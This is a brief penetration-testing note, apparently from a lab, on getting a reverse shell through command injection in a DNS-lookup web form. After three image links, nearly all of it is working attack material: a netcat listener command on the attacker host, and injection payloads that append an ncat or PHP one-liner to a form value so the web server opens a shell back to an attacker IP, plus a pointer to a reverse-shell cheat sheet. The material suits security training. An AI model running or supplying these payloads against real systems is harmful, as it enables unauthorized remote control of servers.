



example: DNS Lookup ( Reverse Shell via command injection, also called 'shoveling' )
Reverse Shell via command injection, also called 'shoveling'
On the attacker set a listener
root@kali:/# nc -lvvnp 1337

Exploit
• On the Webpage
◇ netcat
if netcat is not installed on the web server or is installed, but is missing the "-e" flag, we can always try the other reverse shells below
example.org; ncat 172.17.0.2 1337 -e /bin/bash

◇ PHP:
example.org; php -r '$sock=fsockopen("172.17.0.2",1337);exec("/bin/sh -i <&3 >&3 2>&3");'

◇ Other Reverse Shells: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
We have obtained a reverse shell on the attacker machine
